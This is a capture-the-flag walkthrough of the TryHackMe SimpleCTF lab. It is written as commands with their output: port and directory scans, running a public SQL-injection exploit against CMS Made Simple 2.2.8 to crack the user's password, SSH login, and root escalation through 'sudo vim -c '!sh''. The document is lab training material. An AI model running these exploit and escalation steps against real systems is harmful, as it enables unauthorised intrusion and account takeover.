 TryHackMe | SimpleCTF

https://tryhackme.com/r/room/easyctf

WriteUps:

https://medium.com/@akerkar34/simple-ctf-tryhackme-walkthrough-13fae8abe32d


---
#### nmap scan:
`nmap -sC -sV -A 10.10.90.196 -vv -oN nmap`

```
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.16.52
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

#### gobuster hidden directory scan:
`gobuster dir -u http://     -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirb.txt`

```
# Found directory:
10.10.90.196/simple
# Navigate to directory and found: " This site is powered by CMS Made Simple version 2.2.8 "
```



#### search for exploits involving that CMS:

`searchsploit cms made simple`

```
CMS Made Simple < 2.2.10 - SQL Injection                                                               | php/webapps/46635.py
# search google for php/webapps/46635.py and copy script locally
```


#### run script on target:
`python2 exploit.py -u http://10.10.90.196/simple --crack -w /usr/share/wordlists/rockyou.txt`

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

#### login using credentials we found
`ssh mitch@10.10.90.196 -p 2222`


#### After loggin in, cat user.txt

```
cat user.txt
```

#### Check the user sudo rights
```
sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
#### Esecelate to root user
```
sudo vim -c '!sh'
cd /root
cat root.txt
```
